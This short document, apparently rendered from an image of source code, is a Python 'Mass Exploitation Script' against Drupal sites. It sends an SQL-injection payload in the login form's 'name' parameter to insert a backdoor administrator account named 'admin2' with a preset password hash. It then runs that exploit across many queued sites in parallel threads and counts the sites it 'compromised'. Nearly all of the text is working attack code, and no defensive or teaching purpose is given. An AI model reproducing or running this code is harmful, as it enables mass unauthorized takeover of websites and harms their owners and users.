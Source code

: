 **Mass Exploitation Script**:
```python
import requests
import threading
from queue import Queue

class DrupalExploiter:
    def __init__(self):
        self.vulnerable_sites = Queue()
        self.compromised_sites = []
    
    def scan_for_vulnerable_sites(self, ip_ranges):
        """Scan for vulnerable Drupal installations"""
        for ip_range in ip_ranges:
            # Implement IP range scanning
            self.check_drupal_version(ip_range)
    
    def exploit_site(self, site_url):
        """Exploit individual Drupal site"""
        payload = {
            'name[0;insert into users (name,pass,status) values (\'admin2\',\'$S$CTo9G7Lx28rzCfpn4WB2hUlknDKv6QTqHaf82WLbhPT2K5TzKzML\',1);#]': '',
            'name[0 ]': '',
            'pass': 'password',
            'form_build_id': '',
            'form_id': 'user_login',
            'op': 'Log in'
        }
        
        try:
            response = requests.post(f"{site_url}/user/login", data=payload)
            if "admin2" in response.text:
                self.compromised_sites.append(site_url)
                print(f"✓ Compromised: {site_url}")
        except:
            pass
    
    def mass_exploitation(self):
        """Coordinate mass exploitation campaign"""
        threads = []
        
        while not self.vulnerable_sites.empty():
            site = self.vulnerable_sites.get()
            thread = threading.Thread(target=self.exploit_site, args=(site,))
            threads.append(thread)
            thread.start()
        
        for thread in threads:
            thread.join()
        
        print(f"Campaign complete: {len(self.compromised_sites)} sites compromised")
```
